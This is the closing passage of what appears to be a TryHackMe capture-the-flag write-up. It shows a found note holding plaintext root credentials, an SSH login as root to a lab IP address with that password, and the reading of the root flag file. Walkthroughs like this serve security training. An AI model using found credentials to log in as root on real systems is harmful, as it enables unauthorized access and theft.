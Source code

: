   ```
  Aubreanna,
  Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here. Use them if you need access to the root user account.
  root:tr0ub13guM!@#123
  ```
- **Key Insight**: Root SSH credentials [].

### 12. SSH as root
- Tested the credentials:
  ```bash
  ssh root@10.10.21.216
  ```
- Password: `tr0ub13guM!@#123`
- Success: Logged in as `root`.
- Verified:
  ```bash
  id
  ```
- Output:
  ```
  uid=0(root) gid=0(root) groups=0(root)
  ```
- Found the root flag:
  ```bash
  cd /root
  cat root.txt
  ```
- Content: `THM{d0ck3r_d3str0y3r}` [].

---


